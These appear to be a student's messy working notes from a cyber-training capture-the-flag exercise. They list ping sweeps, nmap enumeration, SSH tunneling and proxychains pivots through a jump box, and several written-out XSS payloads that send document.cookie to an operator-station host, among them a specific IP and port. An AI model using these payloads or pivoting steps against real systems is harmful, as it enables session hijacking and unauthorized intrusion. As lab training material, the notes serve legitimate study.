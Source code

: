 >10.50.39.150
->T1:10.100.28.40
-> training website = 10.100.28.55
# get intial acces to the .40 before gaining access to the training website
------------------------------------------------------------------------------
# enum
```shell
for i in {1..254}; do (ping -c 1 10.100.28.$i | grep "bytes from" &); done | awk '{print $4}' | cut -d: -f1 > ips2.txt
#now create local file of ips(copy/paste)
proxychains nmap -iL ips.txt
#use to scan the ips you grabbed
proxychains nmap -iL ips.txt

#copy over ips file to your ops station ot proxy chains it
proxychains nmap 192.168.28.96/27 -Pn --script banner.nse
#
nmap -p 445 --script smb-os-discovery 192.168.28.5
#net cat
nc -lvknp #this will allow ocntinues connections to connectio
ssh student@10.50.39.150 -L 10300:192.168.28.120:4242
ssh student@localhost -p 10300 -D 9050
#YourTempPassword
/usr/share/namp/scripts$ : nmap 


Network: 192.168.28.96/27 97-126
Network:192.168.150.224/27 224.242

ssh student@10.50.39.150 -L 10300:10.100.28.40:4444
ssh student@localhost -p 10300 -D 9050
ssh student@localhost -p 10300 -L 10301:10.100.28.55:80

ssh student@10.50.39.150 -D 9050 -NT

#enumerate http
nmap 10.50.42.159 -Pn -p 80 --script http-enum.nse
nmap 10.50.42.159 -Pn -p 80 --script http-robots.txt.nse
#pull out all directories in browser 
#interact with buttons
Using Javascript to redirect information
<script>document.location="http://OP-Station-IP:OPS-PORT/?username=" + document.cookie;</script>
<script>window.location.href="http://website/?"+document.cookie;</script>
<script>write.location.href="http://10.50.20.97"</script>
```
# CTF info
T1
Hostname: Donovian_MI_websvr
IP: 10.100.28.40
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Conduct approved Web Exploitation techniques to collect intellegence.
```shell
#create local tunnel to jump box to scan intial web server
ssh student@10.50.39.150 -D 9050
#run python scan
#create ips list
# dump scans and enum

Training Website
We have an asset that is trying to gain employment into the Ministry, however intelligence does not know the IP address of training web site. Our asset has stated that the training site may only be communicated with from the Ministry web site. We have reason to believe that the MI website might have a message saved inside the web server directory. Once we have located the address analyze that website and determine how to produce a certificate of completion, utilizing the Cyber Training Portal.
The flag will be dumped when successful
ssh student@10.50.39.150 -D 9050 -NT

<script>document.location="http://10.50.34.63:2929/?username=" + document.cookie;</script>




